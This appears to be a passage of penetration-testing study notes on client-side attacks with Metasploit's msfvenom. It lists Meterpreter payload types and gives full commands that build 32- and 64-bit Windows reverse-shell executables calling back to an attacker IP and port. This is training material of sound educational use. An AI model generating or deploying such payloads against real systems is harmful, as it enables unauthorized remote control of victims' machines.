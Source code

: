 # Client-Side Attacks

## ​[Client-Side Attacks](https://www.offsec.com/metasploit-unleashed/client-side-attacks/) with MSF <a href="#client-side-attacks-with-msf" id="client-side-attacks-with-msf"></a>

A **client-side attack** is a security breach that happens on the client side.

* Social engineering techniques take advantage of human vulnerabilities
* Require user-interaction to open malicious documents or portable executables (**`PEs`**)
* The payload is stored on the client's system
* Attackers have to pay attention to Anti Virus detection

> ❗ _**Advanced modern antivirus solutions detects and blocks this type of payloads very easily.**_

### ​[Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) Payloads <a href="#msfvenom-payloads" id="msfvenom-payloads"></a>

> ​[**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder
>
> * **`e.g.`** - generate a malicious meterpreter payload, transfer it to a client target; once executed it will connect back to the payload handler and provides with remote access

* List available payloads

msfvenom --list payloads

* When generating a payload the exact name of the payload must be specified
  * target operating system
  * target O.S. architecture (x64, x86 ...)
  * payload type
  * protocol used to connect back (depends on requirements)

**`e.g.`** of **Staged payload**

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-8374500896fdbc9698dcf904ca377f5d0d9a4158%2Fimage-20230415190726950.png?alt=media" alt=""><figcaption></figcaption></figure>

* `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

* `windows/x64/meterpreter_reverse_https`

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-034cc3f4b42408fe6a3e0fb23ba7a745fa9482de%2Fimage-20230415191239575.png?alt=media" alt=""><figcaption></figcaption></figure>

* Generate a Windows payload with `msfvenom`

**32bit payload:**&#x6D;sfvenom -a x86 -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx86.exe​# LHOST = Attacker IP address**64bit payload:**&#x6D;sfvenom -a x64 -p windows/x64/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx64.exe

* List the output formats available
